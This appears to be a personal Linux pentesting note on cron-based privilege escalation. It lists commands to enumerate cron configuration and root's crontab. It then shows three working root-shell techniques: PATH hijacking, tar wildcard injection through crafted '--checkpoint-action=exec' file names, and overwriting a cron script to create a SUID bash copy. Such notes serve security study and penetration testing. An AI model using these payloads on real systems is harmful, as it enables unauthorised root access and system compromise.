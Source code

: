 ```yaml
---
aliases: 
tags:
  - tech
  - cybsec
  - linux
  - privilege_escalation
  - privesc
author: Mehdi N Tehrani
creat_date: 2023-12-18
category: Cyber Security
subcategory: Linux Pentesting
---
```


```
crontab -l
ls -lah /var/spool/cron
ls -la /etc/ | grep cron
ls -la /etc/cron
cat /etc/cron
cat /etc/at.allow
cat /etc/at.deny
cat /etc/cron.allow
cat /etc/cron.deny
cat /etc/crontab
cat /etc/anacrontab
cat /var/spool/cron/crontabs/root
```

#pspy
Use [PSPY](https://github.com/DominicBreuker/pspy) to look out for any new processes that run:


# Cron Paths
for files without full path defined, cron looks in PATH. This can be abused by the attacker.

example:
```
$ echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash; /tmp/bash;' > <run_by_cron_as_root>
$ chmod +x /tmp/bash
$ /tmp/bash -p
# whoami
root
```

# Wildcards
#wildcard
can be used outside of cron as well
useful when we don't have write access to the script run by cron job as root
if we have write permission we can use **cron file overwrite** exploit
## Example
if `tar` is being called in a cron job with a wildcard e.g.
`cd /home/user`
`tar czf <file.tar.gz> *`
this can be abused as such:
```
$ echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash;' > malscript.sh
$ touch /home/user/--checkpoint=1
$ touch /home/user/--checkpoint-action=exec=sh\ malscript.sh

# after the next cron cycle, the following command gives us a root shell
$ /tmp/bash -p
# whoami
root
```

# Cron File Overwrite
#cron_file_overwrite #overwrite  
when we have write permission to the script run by cron job running it as root
we can simply overwrite the content of the script with something like:
`cp /bin/bash /tmp/bash; chmod +s /tmp/bash;`
once cron job is run, the following can be done:
```
$ /tmp/bash -p
# whoami
root
```
